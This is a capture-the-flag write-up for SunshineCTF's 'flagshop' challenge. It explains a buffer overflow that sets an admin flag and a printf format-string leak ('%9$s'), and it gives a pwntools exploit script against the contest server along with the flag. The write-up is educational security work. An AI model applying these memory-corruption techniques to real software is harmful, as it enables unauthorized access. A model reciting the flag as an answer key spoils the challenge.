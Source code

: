 ### Intro
This challenge features a terminal where a user creates an account by entering a username and password, and then issues commands to the terminal. There are two commands - accessing the admin panel, and printing user info. The admin panel can be used to gain access to the flag, but it is locked behind admin permissions. Therefore, the solution to this challenge involves using buffer overflow to gain admin permissions, and then using a format string vulnerability to print the flag.

### Decompilation and Analysis
The main function shows that the program creates a user account, and then takes in user input to execute 1 of 2 commands. The command "1" shows the admin panel.

![main](flagshop_main.png)

`load_panel` handles the admin panel. The program checks if a test value != 0 to see if the user has admin permissions; if so, the program reads the flag file. Note that the test value is at a memory offset from the user input buffer (`param_1` is actually `local_28` which holds account info). Also, note that after reading the flag, `load_panel` prints the username as inputted in `create_account`.

![panel](flagshop_panel.png)

As expected, `read_flag` puts the flag into memory.

![readflag](flagshop_flag.png)

### Buffer Overflow
Getting admin permissions is simple - all that is needed to do is overwrite the test value located after the input buffer.
```
input_buf: "pronouns" input
input_buf+0x8: "username" input
input_buf+0x18: admin test value
```

Therefore, inputting a "pronouns" string that is long enough will overwrite the admin test value and allow access to the admin panel.

![part1](flagshop_part1.png)

A string of length=34 does the trick.

![part2](flagshop_part2.png)

![part3](flagshop_part3.png)

However, accessing the admin panel does not print the flag - but it does load it into memory.

### Format String Vulnerability
The flag is loaded into program memory, but the admin panel only prints the username string. Printing is done using `printf`, so it is possible to use a format string in the user input to arbitrarily print from memory. `%s` will print a string from memory.

Therefore, `%9$s` will print the flag string from memory.

Exploit script:
```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./flagshop')

padding1 = b'p' * 32
formatstr = b'%9$s'
padding2 = b'a' * 32
payload = b''.join([padding1, formatstr, padding2])

p = remote('2024.sunshinectf.games', 24001)
p.recvlines(10)
p.sendline(b'test')
p.recvline()
p.sendline(payload)
p.interactive()

```
Note that the actual buffer overflow + FSV payload is written to the "pronouns" field, but this works because overflowing "pronouns" overwrites "username".

Launching the exploit:

![win](flagshop_win.png)

### Flag
sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}
